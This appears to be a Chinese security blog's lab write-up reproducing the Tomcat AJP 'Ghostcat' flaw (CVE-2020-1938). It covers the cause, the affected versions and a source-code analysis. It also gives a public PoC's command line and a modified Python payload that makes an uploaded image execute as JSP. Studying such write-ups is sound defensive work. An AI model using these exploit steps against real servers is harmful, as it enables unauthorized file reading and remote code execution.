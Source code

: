 ```yaml
---
title: CVE-2020-1938
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-27T00:29:53+08:00
categories: 
- 渗透测试
- 漏洞复现
- Tomcat
---
```


## CVE-2020-1938

**漏洞描述：**

由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

**影响范围：**

Apache Tomcat 9.x < 9.0.31

Apache Tomcat 8.x < 8.5.51

Apache Tomcat 7.x < 7.0.100

Apache Tomcat 6.x

**利用条件：**

处在漏洞影响版本范围内的 Tomcat ，开启 AJP Connector 且攻击者能够访问 AJP Connector 服务端口的情况下

Tomcat AJP Connector 默认配置下即为开启状态，且监听在 0.0.0.0:8009

**漏洞成因：**

Tomcat Connector 是 Tomcat 与外部连接的通道，它使得 Catalina 能够接收来自外部的请求，传递给对应的 Web 应用程序处理，并返回请求的响应结果。

默认情况下，Tomcat 配置了两个 Connector，分别是 HTTP Connector 和 AJP Connector：

```
HTTP Connector：用于处理 HTTP 协议的请求（HTTP/1.1），默认监听地址为 0.0.0.0:8080

AJP Connector：用于处理 AJP 协议的请求（AJP/1.3），默认监听地址为 0.0.0.0:8009
```

AJP 是 Apache Tomcat Web 服务器使用的二进制协议，用于使用 TCP 连接与位于 Web 服务器后面的 servlet 容器进行通信。它主要用于集群或反向代理方案，其中 Web 服务器与应用程序服务器或 servlet 容器进行通信

AJP Connector同样监听在外网，由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件以及可以包含任意文件

### 漏洞复现

从网上下载poc

https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md

```
python2 CVE-2020-1938.py 192.168.121.140 -p 8009 -f index.html
```

即可读取到index.html的内容

![2020-1938](E:\笔记软件\笔记\渗透测试\vulhub-CVE复现\2020-1938.png)

**文件包含**

利用文件包含漏洞，可以直接更改python脚本中的payload

```python
import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf(.jsp)',attributes=[
    #{'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    #{'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    #{'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    {'name':'req_attribute','value':['org.apache.catalina.jsp_file','/test.png']}
    ])
print('----------------------------')
print("".join([d.data for d in data]))
```

利用该代码将test.png解析为jsp代码，需要注意的是，如果请求地址为asdf.jsp，web目录下不能存在asdf.jsp

### 漏洞分析

**文件读取**

 tomcat 处理文件的Defaultservlet在 url-pattern 设置了接受所有 URL 请求,txt,jpg,jsp由JspServlet处理

当我们向Tomcat发送AJP请求时，请求会被`org.apache.coyote.ajp.AjpProcessor`，`AjpProcessor`调用`prepareRequest`方法读取AJP请求中的信息来设置request属性

```
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
```

也就是读取文件所控制得三个请求，当通过AJP进行读取文件操作时，DfaultServlet会调用doGet方法，doGet调用ServeResource方法对文件资源进行操作，ServeRsource调用getResource进行文件资源的读取

```java
 WebResource resource = resources.getResource(path);
```

关键在于getRelativePath()

```java
if (request.getAttribute(RequestDispatcher.INCLUDE_REQUEST_URI) != null) {
            // For includes, get the info from the attributes
            pathInfo = (String) request.getAttribute(RequestDispatcher.INCLUDE_PATH_INFO);
            servletPath = (String) request.getAttribute(RequestDispatcher.INCLUDE_SERVLET_PATH);
```

由于脚本中设置的request_uri为/，并不为null,因此可以控制pathInfo和servletPath达到我们读取文件的目的，但是禁止使用../等进行跳遍历读文件的操作，因为DefaultServlet中对目录的限制，当检测到../会直接返回error

**文件包含**

文件包含是由于JspServlet造成的，同样的发送AJP请求，由于添加.jsp得后缀，会进入JspServlet得判断，导致文件被当作jsp执行

根据可控的三个request

```java
RequestUri：/docs/test.jsp
javax.servlet.include.request_uri: /
javax.servlet.include.path_info: test.png
javax.servlet.include.servlet_path: /
```

test.png会被当做jsp代码执行

### 参考链接

http://b1ue.cn/archives/275.html

https://gv7.me/articles/2020/cve-2020-1938-tomcat-ajp-lfi/

https://www.chaitin.cn/zh/ghostcat
